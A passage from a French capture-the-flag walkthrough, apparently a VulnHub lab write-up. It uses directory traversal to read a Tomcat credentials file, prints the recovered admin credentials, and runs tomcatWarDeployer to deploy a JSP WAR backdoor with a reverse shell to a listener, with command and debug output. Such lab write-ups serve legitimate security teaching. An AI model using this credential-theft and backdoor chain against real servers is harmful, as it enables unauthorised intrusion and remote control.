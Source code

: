 Par conséquent, impossible d'utiliser le logiciel pour fouiller dans `/home`.

## Make a SHELL, not WAR

Je me rappelle alors que sur le port 8080 se trouve un serveur *Tomcat* qui demande des identifiants. J'utilise donc le directory traversal pour extraire le fichier de configuration de *Tomcat* contenant les identifiants (`/etc/tomcat7/tomcat-users.xml`) :

```xml
<user username="thisisasuperduperlonguser" password="heartbreakisinevitable" roles="admin-gui,manager-gui"/>
<user username="fluffy" password="freakishfluffybunny" roles="none"/>
```

Aucun de ces mots de passe ne permet un accès SSH mais le premier donne bien un accès admin sur le *Tomcat*. Dès lors, on se rend sur `http://192.168.56.118:8080/manager/html` pour uploader un fichier `.war`.

J'ai d'abord essayé avec celui que j'avais utilisé notamment sur le CTF [Thales]({% link _posts/2022-11-03-Solution-du-CTF-Thales-1-de-VulnHub.md %}) : [GitHub - p0dalirius/Tomcat-webshell-application: A webshell application and interactive shell for pentesting Apache Tomcat servers.](https://github.com/p0dalirius/Tomcat-webshell-application)

Malheureusement ce dernier ne semble pas fonctionner avec cette version de *Tomcat*, j'obtiens un status 500 et un message d'erreur trop *Java* à mon goût.

J'ai alors eu recours à *tomcatWarDeployer* (du moins un fork qui tente de corriger différents bugs dans la version officielle : [GitHub - flavargues/tomcatWarDeployer: Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.](https://github.com/flavargues/tomcatWarDeployer))

Pour autant ce n'est pas parfait :

```console
$ python tomcatWarDeployer.py -v -U thisisasuperduperlonguser -P heartbreakisinevitable -x -p 9999 -H 192.168.56.1 192.168.56.118:8080

        tomcatWarDeployer (v. 0.5.2)
        Apache Tomcat auto WAR deployment & launching tool
        Mariusz Banach / MGeeky '16-18

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.

INFO: Reverse shell will connect to: 192.168.56.1:9999.
DEBUG: Trying Creds: ["thisisasuperduperlonguser:heartbreakisinevitable"]:
        Browsing to "http://192.168.56.118:8080/"...
DEBUG: Trying to fetch: "http://192.168.56.118:8080/"
DEBUG: Trying to fetch: "http://192.168.56.118:8080/manager"
DEBUG: Probably found something: Apache Tomcat/7.0.52 (Ubuntu)
INFO: Apache Tomcat/7.0.52 (Ubuntu) Manager Application reached & validated.
INFO:   At: "http://192.168.56.118:8080/manager"
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpps99qama"
DEBUG: Working with Java at version: 11.0.18
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: b'adding: META-INF/ (in=0) (out=0) (stored 0%)\nadding: META-INF/MANIFEST.MF (in=56) (out=56) (stored 0%)\nadding: files/ (in=0) (out=0) (stored 0%)\nadding: files/META-INF/ (in=0) (out=0) (stored 0%)\nadding: files/META-INF/MANIFEST.MF (in=67) (out=66) (deflated 1%)\nadding: files/WEB-INF/ (in=0) (out=0) (stored 0%)\nadding: files/WEB-INF/web.xml (in=505) (out=254) (deflated 49%)\nadding: index.jsp (in=4495) (out=1684) (deflated 62%)\nTotal:\n------\n(in = 5107) (out = 2914) (deflated 42%)'
DEBUG: WAR file structure:
```